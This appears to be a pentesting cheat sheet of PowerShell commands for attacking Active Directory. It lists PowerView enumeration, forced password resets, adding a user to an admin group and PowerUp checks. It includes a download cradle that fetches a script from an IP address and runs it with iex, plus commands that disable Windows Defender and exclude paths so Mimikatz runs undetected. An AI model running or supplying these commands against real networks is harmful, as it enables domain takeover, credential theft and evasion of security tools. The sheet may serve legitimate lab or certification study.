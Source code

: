 # Cheat Sheet - PowerShell Scripts

## Table of content :

* [Powerview](#PowerView)
* [PowerUp](#PowerUp)
* [HostRecon](#Recon)
* [GetUsersSPNs](#GUS)
* [Disable AV and Exclude Mimikatz](#DisableAV)

### Powerview<a name="PowerView"></a>

```PowerShell
Get-DomainComputer -Unconstrained
Get-DomainComputer -TrustedToAuth 
Get-DomainUser -Domain sinhack.com
Get-DomainUser -Identity v0lk3n
Get-DomainTrust -API
Get-DomainForeignGroupMember -Domain dev.sinhack.com
ConvertFrom-SID S-1-5-21-1416213050-106196312-571527550-1107

#Parsing in Objectacl
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# Change User Password Account using PowerView
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity V0lk3n -AccountPassword $UserPassword

# Add users to AD Groups
Add-DomainGroupMember -Identity 'ADMINS' -Members 'v0lk3n' -Rights all
```

### PowerUp<a name="PowerUp"></a>

```bash
Invoke-AllChecks
```

### HostRecon<a name="Recon"></a>

```PowerShell
Invoke-HostRecon
```

### GetUserSPNs<a name="GUS"></a>

```PowerShell
(new-object system.net.webclient).downloadstring('http://192.168.49.112:8080/GetUserSPNs.ps1') | iex
```

### Disable AV and Exclude Mimikatz<a name="DisableAV"></a>

1. Disable AV

```PowerShell
Set-MpPreference -DisableRealTimeMonitoring $true
```

2. Add two rules to exclude mimikatz. One for exclude Desktop path, another to exclude "exe" extensions.

```powershell
Set-MpPreference -ExclusionPath \Users\Administrator\Desktop
Set-MpPreference -ExclusionExtension exe
```
